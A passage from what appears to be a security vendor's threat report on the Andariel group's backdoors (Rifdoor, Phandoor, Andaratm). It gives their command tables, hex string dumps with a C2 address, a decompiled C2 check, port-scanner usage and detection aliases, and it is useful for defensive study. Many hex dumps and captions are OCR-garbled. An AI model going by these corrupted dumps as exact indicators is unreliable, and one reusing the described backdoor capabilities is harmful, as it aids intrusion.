| 0001 73A0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 73B0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 7300: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 73D0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 73E0: 00 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 73F0: |  |  |
| 0001 7400: |  |  |
| WanSuc . exe |  |  |
| 0001 7380: 00 |  |  |
| 0001 7390: 00 00 00 00 00 00 00 00 |  | .. |
| 0001 73A0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 | .. |
| 0001 73B0: 00 00 00 00 00 00 00 00 |  | .. |
| 0001 7300: 00 00 00 00 00 00 00 00 | 60 00 00 00 00 00 00 00 |  |
| 0001 73D0: 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 00 | .. |
| 0001 73E0: 00 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |  |
| 0001 73F0: |  |  |
| 0001 7400: PD D2 07 00 |  | 0011 |

[Figure 14] Comparison of original and generated files

[Table 2] shows the major commands associated with Rifdoor and their respective functions.

| Command | Function |
| --- | --- |
| $interval | Standby |
| $downloadexec | Download and execute file |
| $download | Download file |
| (Default) | Execute file (cmd.exe) |
| [Tablo 2] Main commonda of Difdoor |  |

[Table 2] Main commands of Rifdoor

Rifdoor variants have slightly different PDB information as shown in [Table 3].

| C:\Users\C8\Desktop\rifle\Release\rifle.pdb | E:\Data\My Projects\Troy Source Code\tcp1st\rifle\Release\rifle.pdb |  |  |
| --- | --- | --- | --- |
| E:\Data\Mv | Projects\Troy | Source | Code\tcp1st\server\Release\server.pdb |
| IT . LI . |  |  |  |

[Table 3] PDB Information of the Rifdoor variant

### 1.4) Phandoor

Phandoor was used from January 2016 to the summer of 2017. It is characterized by having the string "S^%" before the main character strings. (E.g. S^%s\cmd.exe, S^nehomegpa.dll) However, some variants found in 2017 did not contain its character string, "Anonymous?"

| 004111E0: | 55 00 54 00.24 00 00 00.53 5E 25 73.5C 63 6D 64 | UT $ S-%s\cmd |
| --- | --- | --- |
| .004111F0: | 2E 65 78 65.20 2F 63 20.25 73 00 00.0A 00 00 00 | .exe /c %s · |
| .00411200: | 53 5E 6E 65.68 6F 6D 65.67 70 61 2E.64 6C 6C 00 | S^nehomegpa.dll |
| .00411210: | 25 73 5C 25.73 00 00 00.53 5E 53 6F.66 74 77 61 | %s %s S Softwa |
| .00411220 : | 72 65 5C 4D.69 63 72 6F.73 6F 66 74.5C 57 69 6E | re\Microsoft\Win |
| .00411230: | 64 6F 77 73.5C 43 75 72.72 65 6E 74.56 65 72 73 | dows\CurrentVers |
| .00411240: | 69 6F 6E 5C.41 63 74 69.6F 6E 20 43.65 6E 74 65 | ion\Action Cente |
| .00411250: | 72 5C 43 68.65 63 6B 73.5C 7B 45 38.34 33 33 42 | r\Checks\{E8433B |
| .00411260 : | 37 32 2D 35.38 34 32 2D.34 64 34 33.2D 38 36 34 | 72-5842-4d43-864 |
| .00411270: | 35 2D 42 43.32 43 33 35.39 36 30 38.33 37 7D 2E | 5-BC2C35960837}. |
| .00411280 : | 63 68 65 63 68 2E 31 30.35 00 00 00.53 5E 43 68 | check. 105 S-Ch |
| .00411290 : | 65 63 6B 53.65 74 74 69.6E 67 00 00.3A 00 00 00 | eckSetting |
| .004112A0: | 7C 00 00 00.53 65 53 68.75 74 64 6F.77 6E 50 72 | SeShutdownPr |
| .004112B0: | 69 76 69 6C.65 67 65 00.53 5E 41 3A.5C 00 00 00 | ivilege S~A:\ |
| .00411200 : | 23 2E 30 00.53 2E 33 00.53 2E 34 00.53 2E 7C 00 | 2.0 2.3 6.2 0.5 |
| . 0041 1200 : | 53 5E 30 30.00 00 00 00.53 5E 5C 2A.2E 2A 00 00 | S-00 - S * * * |
| .004112E0: | 53 2E SE 00.53 5E SE 2E.00 00 00 00.53 2E 31 00 | S *. S * .. S * 1 |
| .004112F0 : | 31 00 00 00.30 00 00 00.53 5E 32 00.25 64 00 00 | 1 0 S ~2 %d |
| .00411300: | 25 73 5C 2A.2E 2A 00 00.55 6E 6B 6E.6F 77 6E 00 | %s \* . * Unknown |
| .00411310 : | 2E 00 00 00.2E 2E 00 00.53 5E 25 2E.32 78 00 00 | . . . S %.2x |
| .00411320: | 53 5E 41 6E.6F 6E 79 6D.6F 75 73 3F.00 00 00 00 | S Anonymous? |
| .00411330 : | 53 5E 31 38.30 2E 37 30.2E 39 8M 2E.36 36 00 00 | S-180.70.94.66 |

igure 151 Strings in Phandoo

When Phandoor is executed, it initializes and tries to connect to C&C server. At this time, the string "Anonymous?" is sent to check whether that the server is functioning properly.

```
v1 = Convert 403820("S^Anonymous?");
stropy s(&Dst, 0x1Bu, v1);
strcat s(&Dst, 0x1Bu, dword 4450C0);
  ( send_403070(0x1Au, 0, 1, 0, &Dst) == -1 || select_4031A0(fd) ==
1F
  return 0:
   = dward 425008;
decode 402EF0(dword 4250A0, dword 42509C, dword 4250A8, (int)buf);
if ( ! ( BYTE)wCommand 4250A4 && v3 == 10 )
       Convert 403820("S^Anonymous?");
                     [Figure 16] Anonymous check code
```
After that, it receives commands from the C&C server such as to execute the cmd.exe file.

| Command | Function |
| --- | --- |
| 0x9 | Drive information |
| 0xA | File search |
| 0xB | Receive data online for file creation |
| 0x10 | Re-execute the main function after a set period |
| 0x12 | Relocate the nehomegpa.dll file |
| 0x19 | Get the process list |
| 0x1A | End process |
| 0x1B | Elevate privileges |

[Table 4] Main commands of Phandoor

### 1.5) Andaratm

Andaratm malware was used in attacks on military agencies in 2016, on ATMs and financial institutions in 2017, and on cryptocurrency exchanges in 2018. 18 variants have been identified as of May 2018.

The codes of Andaratm include strings such as "%s\cmd.exe /c echo | %s > %s" and "%s

| .0040E460: 5F 61 64.72 00 00 00.73 6F 63 6B.65 74 00 00 addr socket |
| --- |
| .0040E470: 63 6F 6E 6E.65 63 74 00.25 73 5C 63.6D 64 2E 65 connect %S\cmd.e |
| .0040E480: 78 65 20 2F.63 20 65 63.68 6F 20 7C.20 25 73 20 xe /c echo   %s |
| .0040E490: 3E 20 25 73.00 00 00.7E 75 6E 00.72 62 00 00 > %s |
| .0040E4R0: 77 62 00 00.41 64 76 61.70 69 33 32.2E 64 6C 6C wb Advapi32.dll |
| .0040E4B0: 00 00 00.47 65 74 55.73 65 72 4E.61 6D 65 41 GetUserNameH |
| .0040E4C0: 00 00 00 00.25 73 2A 2A.2A 2A 2A 25.73 00 00 00 %S*****%S |
| .0040E4D0: 57 53 41 43.6C 65 61 6E.75 70 00 00.32 37 2E 31 WSACleanup 27.1 |

I Strings of Andarat

When Andaratm is executed, it acquires information, such as the computer name and username, attempts to connect to the designated C2 server, and receives and executes the command.

The encryption method of Andaratm is similar to the methods generally used by malware.

```
int16)(8 * v11)) & 0x7F8) << 20)
```
#### [Figure 18] Encryption method of Andaratm

Andaratm only executes simple commands, such as downloading files, uploading files, and running cmd.exe files.

## 2. Attack Tools

The attacker uses various tools, such as Putty Link and port scanner, which are used for communication.

| C = \ MORK >s |
| --- |
| TCP Port Scanner U1.1 By WinEggDrop |
| Usage: s TCP/SYN StartIP [EndIP] Ports [Threads] [/Banner] [/Savel |
| Example: s TCP 12.12.12.12.12.12.254 80 512 |
| Example: s TCP 12.12.12 1-65535 512 |
| Example: s TCP 12.12.12.12.12.12.12.254 21,3389.5631 512 |
| Example: s TCP 12.12.12.12 21,3389,5631 512 |
| Example: s SYN 12.12.12.12.12.12.254 80 |
| Example: s SYN 12.12.12 1-65535 |
| Example: s SYN 12.12.12.12.12.12.254 21.80.3389 |
| Example: s SYN 12.12.12.12 21.80.3389 |
| C= < MORK>_ |

[Figure 19] Port scanner

A tool was also used to check the IP and port with file names like pcon.exe, portc.exe, and zcon.exe. A variant of Zcon.exe was also used in Bmdoor in 2015.

| c:\work>zcon <ip> <port> |
| --- |
| c:\work>zcon 127.0.0.1 1028 |
| ok! |
| c:\work>zcon 127.0.0.1 890 |
| no |
| c : \work>_ |

[Figure 20] Zcon.exe

The Andariel group produced malware named Crash.exe and Test.exe; these malware destroy hard disk contents after August of each year. It is not confirmed, however, whether these malware were used in actual attacks.

# Similarities in Multiple Attack Cases

The Andariel group has launched many attacks using a variety of malware. In addition to the similarity of their codes, factors are indicating the association between these attacks. Results from the detailed analysis of AhnLab shows that the Andariel group and Operation Black Mine take the similar attack methods, and in particular, they both used the file, zcon.exe. This suggests that Operation Black Mine is associated with the Andariel group. The similar malware was used to attack various targets, and some of them used the same C2.



[Figure 21] Association between the Andariel group and other attacks

For macro-based attacks, there was no significant difference between the macro codes of 2015 and 2017.



[Figure 22] Comparison of the macro codes between 2015 (left) and 2017 (right)

Besides, the malware produced by Andariel group uses a similar encryption method.



[Figure 23] Encryption method of the Andariel Group

# AhnLab's Response

V3, AhnLab's anti-malware product, has detected malware related to the Andariel group under the following aliases:

#### < Aliases identified by AhnLab V3>

- Trojan/Win32.Phandoor (2016.01.13.00)
- Trojan/Win32.Andaratm (2018.05.03.00)
- W97M/Downloader (2017.11.03.00)
- Backdoor/Win32.Aryan (2015.12.23.00)
- Dropper/Win32.Fakeinstaller (2017.01.02.09)
- Trojan/Win32.HackTool (2017.06.27.03)
- Trojan/Win32.Andarat (2017.10.27.03)
- HackTool/Win32.Malsender (2017.04.17.04)
- Trojan/Win32.Rifdoor (2015.12.23.04)
- X97M/Downloader (2015.12.24.05)

## Conclusion

The Andariel Group is one of the most active threat groups in South Korea. In the early days, most attacks were designed to steal military information. Since the end of 2016, however, attacks have also been made for monetary gain. In addition, based on their frequent attacks using vulnerabilities of software used by the target, it can be seen that the group is well aware of Korea IT environment.

As evident in the attack cases of the group, central management solutions of companies and institutions can become a route of an attack at any time. Attacks exploiting a central management solution may cause enormous damaqe throughout the organization. Thus, more strengthened security management is required.

In particular, a security policy for the management server of a central management solution is critical. Suitable management is required to ensure that necessary security policies are observed, such as frequently changing administrator's login password of the management server and not saving it in the system, as well as limiting the access to the management server. In addition, logs must be checked periodically to make sure that abnormal files have not been distributed via the management server. There was a case where the attacker exploited the vulnerability in an aqent installed in the client without going through the management server, so it is necessary to monitor whether or not scanning of the port number used by the central management solution occurs.

Attackers use a variety of methods in their attempts to infiltrate companies and institutions. Most organizations focus on strengthening security on endpoints, but it is just as much essential to monitor events that occur in the internal infrastructure, just like the central management solution.

## Reference

[1] AhnLab Reveals the Secret of Operation Black Mine 

[2] Reasons Behind the Continued Attacks on Defense Industries  dist=2&seq=26565

[3] Financial Security Institute Intelligence Report_Threat Group Profiling that Targets Korea 

[4] Targeted Attacks? Protect the Central Management System!  upload/asecissue files/ASEC REPORT vol.89.pdf

[5] Series of breaches of renowned companies, Daring Hack Attacks - Part 1 

[6] Series of breaches of renowned companies, Daring Hack Attacks - Part 1 

[7] Hana Tour's Customer Records Leaked... All Started from Their Vendor 

